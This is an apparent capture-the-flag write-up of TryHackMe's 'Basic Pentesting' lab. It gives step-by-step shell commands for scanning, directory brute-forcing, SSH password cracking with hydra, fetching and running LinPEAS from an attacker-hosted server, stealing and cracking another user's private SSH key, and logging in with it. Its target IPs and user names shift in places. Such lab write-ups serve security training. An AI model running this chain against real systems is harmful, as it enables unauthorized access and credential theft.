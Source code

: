 # Basic Pentesting - Try Hack Me


Target: 10.10.162.125


The first thing I did is to scan the ip address. Let us run an Nmap scan on the target 10.10.162.125
###### nmap scan
```
$ sudo nmap -sC -sV 10.10.162.125
```
There are multiple open ports but the port 22 is what caught my eye. Port 22 or SSH is often used to login and perform operations on computers.
Result:



![src:index](basicpentesting_1.png)


Web Page Results:

![src:index](basicpentesting_20.PNG)  



I inspected the source code of the webpage to find interesting information 

Source Code:


![src:index](basicpentesting_21.PNG)


I used ffuf with small.txt file to try to bruteforce for the directories.
###### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

After minutes of bruteforcing I got the development directory

Fuff Results:


![src:index](basicpentesting_2.png)


Now let us take a look at the development page.

![src:index](basicpentesting_23.PNG)

dev.txt

![src:index](basicpentesting_24.PNG)

j.txt

![src:index](basicpentesting_25.PNG)

According to the note, I have found out that J has a weak credentials and that his/her password hash can be cracked easily.

I tried to gather more interesting information and used enum4linux.

###### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```
![src:index](basicpentesting_3.png)

I found 2 users: jay and kay

![src:index](basicpentesting_4.png)

Now that I know the user name, I will try to bruteforce the password of user jan using Hydra


###### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```
![src:index](basicpentesting_5.png)

After minutes of waiting, we successfully retrieved the password of user jan using the password list rockyou.txt
user:jan password:armando


![src:index](basicpentesting_6.png)

Let's login to user jan through ssh

###### login to user through ssh
```
$ ssh jan@10.10.162.125
```

###### host a server to download LinPEAS on the machine
```
$ python -m http.server 8001
```
![src:index](basicpentesting_7.png)

###### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

###### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```
![src:index](basicpentesting_8.png)


###### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

###### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```
![src:index](basicpentesting_10.png)

###### found possible private SSH keys 

![src:index](basicpentesting_11.png)

###### /home/kay/ .ssh/id_rsa


###### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

###### list files
```
jan@basic2:/home/kay$ ls
```

###### found pass.bak
![src:index](basicpentesting_12.png)
###### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```
![src:index](basicpentesting_13.png)

###### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

###### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

###### found id_rsa

![src:index](basicpentesting_14.png)

###### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```
![src:index](basicpentesting_15.png)
###### save ssh key
```
$ mousepad kay_id_rsa
```


###### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

###### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```
![src:index](basicpentesting_16.png)

###### chmod 
```
$ chmod 600 kay_id_rsa
```
![src:index](basicpentesting_17.png)

###### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```
![src:index](basicpentesting_18.png)
###### list down files
```
kay@basic2:~$ ls
```

###### print pass.bak
```
kay@basic2:~$ cat pass.bak
```
![src:index](basicpentesting_19.png)













